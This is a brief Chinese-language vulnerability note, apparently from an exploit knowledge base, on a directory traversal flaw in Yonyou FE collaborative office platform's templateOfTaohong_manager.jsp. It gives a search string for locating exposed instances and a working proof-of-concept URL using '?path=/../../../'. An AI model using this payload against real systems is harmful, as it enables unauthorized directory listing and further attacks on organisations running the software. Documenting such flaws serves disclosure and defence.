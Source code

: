 # 用友 FE协作办公平台 templateOfTaohong_manager.jsp 目录遍历漏洞

## 漏洞描述

用友 FE协作办公平台 templateOfTaohong_manager.jsp文件存在目录遍历漏洞，通过漏洞攻击者可以获取目录文件等信息，导致进一步攻击

## 漏洞影响

<a-checkbox checked>用友 FE协作办公平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"FE协作"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1646059676433-1560cc0a-f228-4969-862e-6c1bca531f9b.png)

验证POC

```javascript
/system/mediafile/templateOfTaohong_manager.jsp?path=/../../../
```

![img](../../../.vuepress/public/img/1646059728922-422586b0-6e56-4752-832e-4f386629fd2e.png)